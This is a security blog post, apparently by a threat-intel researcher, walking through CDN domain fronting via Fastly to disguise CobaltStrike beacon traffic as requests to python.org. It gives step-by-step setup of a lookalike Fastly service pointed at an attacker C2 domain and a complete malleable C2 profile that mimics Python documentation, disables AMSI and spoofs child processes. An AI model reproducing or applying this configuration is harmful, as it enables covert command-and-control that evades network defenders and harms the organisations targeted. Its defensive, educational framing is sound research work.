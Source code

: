 ```yaml
---
title: "Threat Spotlight - Domain Fronting"
excerpt: Fast(ly) but deadly.
category: threat-spotlight
tags: [en-us, guide]
header:
  overlay_color: '#000'
  overlay_filter: '0.75'
  overlay_image: /assets/images/posts/domain-fronting/2021-11-13_19-28-47.png
---
```



Domain fronting is a common technique that is sometimes used by threat actors to disguise their traffic as the real deal. Essentially, what it is is communicate with legitimate-looking domains when reality, the traffic is being pointed to threat actor's C2 stations. A common example would be using legitimate or reputable domains with a custom `Host` header to redirect the traffic to threat actor's stations. There are many examples out there that abuse services like [Cloudflare](https://digi.ninja/blog/cloudflare_example.php), [CloudFront](https://digi.ninja/blog/cloudfront_example.php), and such.

In today's example, we'll be using Fastly as an example. Fastly provides a service that's more or less intended to act as a CDN, where you can create a service and tie it to your backend. As you can imagine, a company as large as Fastly ([that was able to bring half the Internet with it when it went down](https://www.bloomberg.com/news/articles/2021-06-08/explaining-cdns-and-why-big-websites-crash-together-quicktake)), there are probably more than thousands of people using their services - and indeed there are.

You can do a quick search using services like RiskIQ to look through all of the subdomains associated with `*.fastly.net`. While [it appears we're not the first to discover this](https://fortynorthsecurity.com/blog/fastly-and-fronting/), there aren't a whole lot of other resources out there talking about abusing Fastly as a service.

![Image](/assets/images/posts/domain-fronting/2021-11-14_20-34-02.png)

And Python Software Foundation just so happens to use it too!

![Image](/assets/images/posts/domain-fronting/2021-11-14_20-40-10.png)

What actually happens is when you contact `python.org`, it actually gets interpreted as `python.org.prod.global.fastly.net` internally based on the `Host` header. This was actually brought to our attention a while back when my colleagues discovered there were CobaltStrike beacons in the wild that appear to connect to Python-related domains at execution, and upon further investigation, we realized they were abusing the nature of Fastly services to disguise their traffic. So I decided to do a little experiment this weekend to see if I can recreate that myself.

To get started, I created a new service on Fastly called `dl-python.org`, a service name (and in turn, a domain name) that appears to be similar enough to the real deal, but doesn't actually exist (and it doesn't need to be!).


  ![Image](/assets/images/posts/domain-fronting/2021-11-13_19-29-20.png)
  ![Image](/assets/images/posts/domain-fronting/2021-11-14_20-47-44.png)
  <figcaption>
    Create a new service that appears to be genuine enough to the target domain name. In this case, <code>dl-python.org</code>.
    Note that while <code>dl-python.org</code> appears to be actually owned by someone else, I don't actually have access to it, nor will it actually make contact with the domain (we'll get to that part later). You can name it whatever you want.
  </figcaption>


Next, in the Host settings section, enter your actual C2's domain name, something you have actual control over. In this case, `my-c2domain.com`. I have the port set to `55137`, but it should be 443 ideally for HTTPS beacons. My 80/443 port was occupied by something else when I was experimenting with it.

![Image](/assets/images/posts/domain-fronting/2021-11-13_19-29-57.png)

Next, we're going to craft a new CobaltStrike Stager. Create a new Listener on your team server with the vulnerable domain name as the C2, and enter your service name in the `Host` field. To make the traffic look a little bit more genuine, you can also craft your own malleable C2 profile that has contents of Python docs inside.

![Image](/assets/images/posts/domain-fronting/2021-11-13_19-28-47.png)

```text
set sleeptime "5000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 6.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0";

# set host_stage "false";
post-ex {
	# control the temporary process we spawn to
	set spawnto_x86 "%ProgramFiles(x86)%\\Everything\\Everything.exe";
	set spawnto_x64 "%ProgramFiles%\\Mozilla Firefox\\firefox.exe";

	# change the permissions and content of our post-ex DLLs
	set obfuscate "true";

	# pass key function pointers from Beacon to its child jobs
	set smartinject "true";

	# disable AMSI in powerpick, execute-assembly, and psinject
	set amsi_disable "true";
}

http-config {
	set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
	set trust_x_forwarded_for "false";
	header "Server" "nginx";
	header "Keep-Alive" "timeout=5, max=100";
	header "Connection" "Keep-Alive";
}

http-get {
    set uri "/3/library/stdtypes.html";
    client {
        header "Accept" "*/*";
        header "Host" "dl-python.org";
        metadata {
            base64;
            prepend "session=";
            header "Cookie";
        }
    }

    server {
        header "Server" "nginx";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";

        output {
            base64url;
            # the content was so long for my IDE that it actually hung when trying to parse it
            # so I'm gonna leave this section to you
            append "...html_head...";
            prepend "...html_body...";
            print;
        }
    }
}

http-post {
    set uri "/3/library/struct.html";
    client {
        header "Accept" "*/*";
        header "Host" "cobaltstrike.stillu.cc";
        id {
            mask;
            base64url;
            parameter "x-timer";
        }
        output {
            mask;
            base64url;
            parameter "etag";
        }
    }

    server {
        header "Server" "nginx";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";

        output {
            base64url;
            append "...html_head...";
            prepend "...html_body...";
            print;
        }
    }
}
```

And that's it! Let's try to run the stager on our victim machine.

![Image](/assets/images/posts/domain-fronting/2021-11-13_19-31-10.png)

As you can see, it worked! It looks like it's contacting `docs.python.org` (and it is), yet the server returned beacon information for the stager. Just not in plaintext because I had the `mask` option enabled, otherwise the content should look almost like standard HTML content with random bits of information thrown in there because of the malleable C2 config above - and this is with unencrypted traffic.

This trick is perfect for threat actors that want to evade IT admins' attention as
- it appears to contact a real domain with benign URL (`http://docs.python.org/3/library/stdtypes.html`)
- it can be made to communicate in HTTPS, so the `Host` header wouldn't even show up
- if the IT admin does manage to figure out it goes to `dl-python.org.prod.global.fastly.net`, it doesn't reveal the actual C2 address still, as the resolved IP would just be Fastly's own CDN IP.

This entire thing was really fun to recreate and helped me understand CobaltStrike a little bit more from attacker's perspective, as I've always tackled CobaltStrike payloads from a Blue Team's perspective as a threat intel researcher. If you are in the same position as me, I also encourage you to give CobaltStrike a try and try to attack your own machines to see what tricks you can pull off (if your organization has access to such tool).
